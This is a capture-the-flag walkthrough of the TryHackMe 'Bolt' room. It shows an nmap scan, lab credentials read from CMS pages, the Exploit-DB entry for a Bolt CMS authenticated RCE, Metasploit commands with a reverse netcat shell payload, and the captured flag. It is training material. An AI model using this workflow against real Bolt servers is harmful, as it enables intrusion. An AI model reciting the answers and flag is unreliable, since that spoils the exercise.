



# Bolt

A hero is unleashed

[Bolt](https://tryhackme.com/room/bolt)

## Topic's

- Network Enumeration
- Web Enumeration
- Web Poking
- Security Misconfiguration
- Using Metasploit
- Exploitation Bolt CMS 3.7.0

## Appendix archive

Password: `1 kn0w 1 5h0uldn'7!`

## Deploy the machine

This room is designed for users to get familiar with the Bolt CMS and how it can be exploited using Authenticated Remote Code Execution. You should wait for at least 3-4 minutes for the machine to start properly.

If you have any queries or feedback you can reach me through the TryHackMe [Discord server](https://discord.gg/F7ERYzz) or through [Twitter](https://twitter.com/0x9747/).

1. Start the machine

`No answer needed`

## Hack your way into the machine!

**A hero is unleashed**

Once you have successfully deployed the VM , enumerate it before finding the flag in the machine.

1. What port number has a web server with a CMS running?

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-29 16:06 CEST
Nmap scan report for 10.10.174.31
Host is up (0.041s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 f3:85:ec:54:f2:01:b1:94:40:de:42:e8:21:97:20:80 (RSA)
|   256 77:c7:c1:ae:31:41:21:e4:93:0e:9a:dd:0b:29:e1:ff (ECDSA)
|_  256 07:05:43:46:9d:b2:3e:f0:4d:69:67:e4:91:d3:d3:7f (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
8000/tcp open  http    (PHP 7.2.32-1)
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 404 Not Found
|     Date: Tue, 29 Sep 2020 14:06:37 GMT
|     Connection: close
|     X-Powered-By: PHP/7.2.32-1+ubuntu18.04.1+deb.sury.org+1
|     Cache-Control: private, must-revalidate
|     Date: Tue, 29 Sep 2020 14:06:37 GMT
|     Content-Type: text/html; charset=UTF-8
|     pragma: no-cache
|     expires: -1
|     X-Debug-Token: 53e7a3
|     <!doctype html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Bolt | A hero is unleashed</title>
|     <link href="https://fonts.googleapis.com/css?family=Bitter|Roboto:400,400i,700" rel="stylesheet">
|     <link rel="stylesheet" href="/theme/base-2018/css/bulma.css?8ca0842ebb">
|     <link rel="stylesheet" href="/theme/base-2018/css/theme.css?6cb66bfe9f">
|     <meta name="generator" content="Bolt">
|     </head>
|     <body>
|     href="#main-content" class="vis
|   GetRequest:
|     HTTP/1.0 200 OK
|     Date: Tue, 29 Sep 2020 14:06:37 GMT
|     Connection: close
|     X-Powered-By: PHP/7.2.32-1+ubuntu18.04.1+deb.sury.org+1
|     Cache-Control: public, s-maxage=600
|     Date: Tue, 29 Sep 2020 14:06:37 GMT
|     Content-Type: text/html; charset=UTF-8
|     X-Debug-Token: 373a0e
|     <!doctype html>
|     <html lang="en-GB">
|     <head>
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Bolt | A hero is unleashed</title>
|     <link href="https://fonts.googleapis.com/css?family=Bitter|Roboto:400,400i,700" rel="stylesheet">
|     <link rel="stylesheet" href="/theme/base-2018/css/bulma.css?8ca0842ebb">
|     <link rel="stylesheet" href="/theme/base-2018/css/theme.css?6cb66bfe9f">
|     <meta name="generator" content="Bolt">
|     <link rel="canonical" href="http://0.0.0.0:8000/">
|     </head>
|_    <body class="front">
|_http-generator: Bolt
|_http-title: Bolt | A hero is unleashed
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8000-TCP:V=7.80%I=7%D=9/29%Time=5F733F6C%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,29E1,"HTTP/1\.0\x20200\x20OK\r\nDate:\x20Tue,\x2029\x20Sep\x20
SF:2020\x2014:06:37\x20GMT\r\nConnection:\x20close\r\nX-Powered-By:\x20PHP
SF:/7\.2\.32-1\+ubuntu18\.04\.1\+deb\.sury\.org\+1\r\nCache-Control:\x20pu
SF:blic,\x20s-maxage=600\r\nDate:\x20Tue,\x2029\x20Sep\x202020\x2014:06:37
SF:\x20GMT\r\nContent-Type:\x20text/html;\x20charset=UTF-8\r\nX-Debug-Toke
SF:n:\x20373a0e\r\n\r\n<!doctype\x20html>\n<html\x20lang=\"en-GB\">\n\x20\
SF:x20\x20\x20<head>\n\x20\x20\x20\x20\x20\x20\x20\x20<meta\x20charset=\"u
SF:tf-8\">\n\x20\x20\x20\x20\x20\x20\x20\x20<meta\x20name=\"viewport\"\x20
SF:content=\"width=device-width,\x20initial-scale=1\.0\">\n\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20<title>Bolt\x20\|\x20A
SF:\x20hero\x20is\x20unleashed</title>\n\x20\x20\x20\x20\x20\x20\x20\x20<l
SF:ink\x20href=\"https://fonts\.googleapis\.com/css\?family=Bitter\|Roboto
SF::400,400i,700\"\x20rel=\"stylesheet\">\n\x20\x20\x20\x20\x20\x20\x20\x2
SF:0<link\x20rel=\"stylesheet\"\x20href=\"/theme/base-2018/css/bulma\.css\
SF:?8ca0842ebb\">\n\x20\x20\x20\x20\x20\x20\x20\x20<link\x20rel=\"styleshe
SF:et\"\x20href=\"/theme/base-2018/css/theme\.css\?6cb66bfe9f\">\n\x20\x20
SF:\x20\x20\t<meta\x20name=\"generator\"\x20content=\"Bolt\">\n\x20\x20\x2
SF:0\x20\t<link\x20rel=\"canonical\"\x20href=\"http://0\.0\.0\.0:8000/\">\
SF:n\x20\x20\x20\x20</head>\n\x20\x20\x20\x20<body\x20class=\"front\">\n\x
SF:20\x20\x20\x20\x20\x20\x20\x20<a\x20")%r(FourOhFourRequest,16C3,"HTTP/1
SF:\.0\x20404\x20Not\x20Found\r\nDate:\x20Tue,\x2029\x20Sep\x202020\x2014:
SF:06:37\x20GMT\r\nConnection:\x20close\r\nX-Powered-By:\x20PHP/7\.2\.32-1
SF:\+ubuntu18\.04\.1\+deb\.sury\.org\+1\r\nCache-Control:\x20private,\x20m
SF:ust-revalidate\r\nDate:\x20Tue,\x2029\x20Sep\x202020\x2014:06:37\x20GMT
SF:\r\nContent-Type:\x20text/html;\x20charset=UTF-8\r\npragma:\x20no-cache
SF:\r\nexpires:\x20-1\r\nX-Debug-Token:\x2053e7a3\r\n\r\n<!doctype\x20html
SF:>\n<html\x20lang=\"en\">\n\x20\x20\x20\x20<head>\n\x20\x20\x20\x20\x20\
SF:x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20\x20\x20\x20\x2
SF:0<meta\x20name=\"viewport\"\x20content=\"width=device-width,\x20initial
SF:-scale=1\.0\">\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20<title>Bolt\x20\|\x20A\x20hero\x20is\x20unleashed</title>\n\x2
SF:0\x20\x20\x20\x20\x20\x20\x20<link\x20href=\"https://fonts\.googleapis\
SF:.com/css\?family=Bitter\|Roboto:400,400i,700\"\x20rel=\"stylesheet\">\n
SF:\x20\x20\x20\x20\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/
SF:theme/base-2018/css/bulma\.css\?8ca0842ebb\">\n\x20\x20\x20\x20\x20\x20
SF:\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/theme/base-2018/css/them
SF:e\.css\?6cb66bfe9f\">\n\x20\x20\x20\x20\t<meta\x20name=\"generator\"\x2
SF:0content=\"Bolt\">\n\x20\x20\x20\x20</head>\n\x20\x20\x20\x20<body>\n\x
SF:20\x20\x20\x20\x20\x20\x20\x20<a\x20href=\"#main-content\"\x20class=\"v
SF:is");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.29 seconds
```

`8000`

2. What is the username we can find in the CMS?

[http://10.10.174.31:8000/entry/message-from-admin](http://10.10.174.31:8000/entry/message-from-admin)



`Bolt`

1. What is the password we can find for the username?

[http://10.10.174.31:8000/entry/message-for-it-department](http://10.10.174.31:8000/entry/message-for-it-department)



`boltadmin123`

4. What version of the CMS is installed on the server? (Ex: Name 1.1.1)

[http://10.10.174.31:8000/bolt/login](http://10.10.174.31:8000/bolt/login)



`Bolt 3.7.1`

5. There's an exploit for a previous version of this CMS, which allows authenticated RCE. Find it on Exploit DB. What's its EDB-ID?

[https://www.exploit-db.com/exploits/48296](https://www.exploit-db.com/exploits/48296)

`48296`

6. Metasploit recently added an exploit module for this vulnerability. What's the full path for this exploit? (Ex: exploit/....) Note: If you can't find the exploit module its most likely because your metasploit isn't updated. Run `apt update` then `apt install metasploit-framework`

```
sudo msfconsole
msf5 > use unix/webapp/bolt_authenticated_rce
[*] Using configured payload cmd/unix/reverse_netcat
msf5 exploit(unix/webapp/bolt_authenticated_rce) >
```

`exploit/unix/webapp/bolt_authenticated_rce`

7. Set the LHOST, LPORT, RHOST, USERNAME, PASSWORD in msfconsole before running the exploit

`No answer needed`

2. Look for flag.txt inside the machine.

```
cd /home
ls
bolt
composer-setup.php
flag.txt
cat flag.txt
THM{wh0_d035nt_l0ve5_b0l7_r1gh7?}
```

`THM{wh0_d035nt_l0ve5_b0l7_r1gh7?}`
